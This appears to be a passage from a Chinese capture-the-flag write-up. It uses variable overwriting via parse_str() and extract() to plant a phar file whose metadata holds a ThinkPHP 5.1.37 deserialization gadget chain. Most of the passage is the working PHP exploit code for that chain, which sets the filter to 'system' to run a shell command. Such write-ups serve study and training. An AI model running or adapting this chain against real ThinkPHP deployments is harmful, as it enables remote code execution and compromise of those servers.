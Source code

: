 parse_str()和extract()使得我们可以通过变量覆盖完成文件写入与任意读取，并且$a可以使用伪协议。那么接下来的事情就理所应当了：往hello.txt里写入一个phar，metadata里面放ThinkPHP 5.1.37 的反序列化利用链，完成RCE.(关于这个POP链的原理请参阅[https://www.hacking8.com/bug-web/Thinkphp/Thinkphp-反序列化漏洞/Thinkphp-5.1.37-反序列化漏洞.html](https://www.hacking8.com/bug-web/Thinkphp/Thinkphp-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/Thinkphp-5.1.37-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E.html) 讲的很详细)

```php
<?php
namespace think{
    abstract class Model{
        protected $append = [];
        private $data = [];
        function __construct(){
            $this->append = ["ethan"=>["godspeedyyds","xtxyyds"]];
            $this->data = ["ethan"=>new Request()];
        }
    }
    class Request{
        protected $hook = [];
        protected $filter = "system";
        protected $config = [
            'var_method'       => '_method',
            'var_ajax'         => '_ajax',
            'var_pjax'         => '_pjax',
            'var_pathinfo'     => 's',
            'pathinfo_fetch'   => [
                'ORIG_PATH_INFO',
                'REDIRECT_PATH_INFO',
                'REDIRECT_URL'
            ],
            'default_filter'   => '',
            'url_domain_root'  => '',
            'https_agent_name' => '',
            'http_agent_ip'    => 'HTTP_X_REAL_IP',
            'url_html_suffix'  => 'html',
        ];
        protected $param = ['cat /y0u_f0und_It'];
        function __construct(){
            $this->filter = "system";
            $this->config = ["var_ajax"=>''];
            $this->hook = ["visible"=>[$this,"isAjax"]];
        }
    }
}

namespace think\process\pipes{
    use think\model\concern\Conversion;
    use think\model\Pivot;
    class Windows{
        private $files = [];

        public function __construct(){
            $this->files = [new Pivot()];
        }
    }
}

namespace think\model{
    use think\Model;

    class Pivot extends Model{

    }
}
```